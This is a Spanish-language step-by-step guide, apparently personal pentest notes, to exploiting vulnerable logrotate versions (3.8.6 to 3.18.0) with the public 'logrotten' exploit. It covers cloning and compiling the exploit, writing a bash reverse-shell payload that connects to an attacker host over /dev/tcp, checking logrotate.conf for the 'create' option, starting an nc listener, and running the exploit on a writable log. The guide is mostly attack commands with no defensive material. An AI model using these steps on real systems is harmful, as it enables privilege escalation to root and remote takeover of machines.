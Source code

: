 # Explotación de **logrotate** con **logrotten**

## 📌 Introducción
Los sistemas Linux generan grandes cantidades de archivos de registro (**logs**). Para evitar que llenen el disco, se utiliza la herramienta **logrotate**, que archiva o elimina registros antiguos.  
Si los registros no se gestionan correctamente, pueden ocupar demasiado espacio y dificultar la búsqueda de información crítica.

## 🎯 Objetivo
Explotar una versión vulnerable de **logrotate** para obtener una **shell reversa** como usuario privilegiado o root.

## 🛠 Requisitos
Para explotar **logrotate**, se deben cumplir las siguientes condiciones:
1. Tener **permisos de escritura** en los archivos de log.
2. **logrotate** debe ejecutarse como un usuario privilegiado o **root**.
3. La versión del sistema debe ser **vulnerable**. Versiones afectadas:
   - **3.8.6**
   - **3.11.0**
   - **3.15.0**
   - **3.18.0**

## 🚀 Explotación con **logrotten**
Si se cumplen los requisitos, podemos usar un exploit prefabricado llamado **logrotten**.  

### **1️⃣ Descarga y compilación del exploit**
Si el sistema de destino permite la compilación, podemos hacerlo directamente allí. De lo contrario, compilamos en una máquina con un kernel similar y transferimos el binario.

```sh
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```

### **2️⃣ Creación del payload**

Generamos un payload con una **shell reversa** que se conectará a nuestra máquina atacante (**10.10.14.2:9001** en este caso).

```bash
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

### **3️⃣ Identificación de configuración vulnerable**

Verificamos si **logrotate** tiene la opción `create`, lo que significa que podemos usar el exploit con este método:

```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"

```

ejemplo de salida:
	 create
Dado que la opción `create` está habilitada, adaptamos el exploit en consecuencia.

### **4️⃣ Configuración del listener en nuestra máquina**

Antes de ejecutar el exploit, iniciamos un **listener** en nuestra máquina para recibir la conexión:
```bash
nc -nlvp 9001

```
### **5️⃣ Ejecución del exploit**

Ejecutamos el exploit indicando el payload y el archivo de log vulnerable:
```bash
./logrotten -p ./payload /tmp/tmp.log

```

Si la explotación es exitosa, recibiremos una conexión en nuestro listener